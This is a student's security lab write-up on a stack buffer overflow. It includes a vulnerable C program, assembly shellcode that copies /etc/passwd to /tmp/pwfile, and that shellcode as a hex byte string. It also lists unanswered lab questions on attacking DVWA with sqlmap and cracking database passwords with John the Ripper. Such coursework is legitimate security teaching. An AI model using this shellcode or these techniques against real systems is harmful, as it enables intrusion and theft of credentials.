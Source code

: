 # Lab #1,22110031, Bien Xuan Huy, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

I saved the vulnerable C program the file file task1.c and shellcode into task1.asm.
In order to attack, I will first convert the task1.asm into machine code using the following commands. 

```
nasm -g -f elf task1.asm
ld -m elf_i386 -o task1 task1.o
for i in $(objdump -d task1 |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

And here is the shellcode in machine format, which is 97 bytes long.

```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```

Bien Xuan Huy

Consider the stack frame of the main function.

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/27c1eede74a38d40582d209a1ad113acdb2d19ec/images/task1/mainstackframe.png"><br>



**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



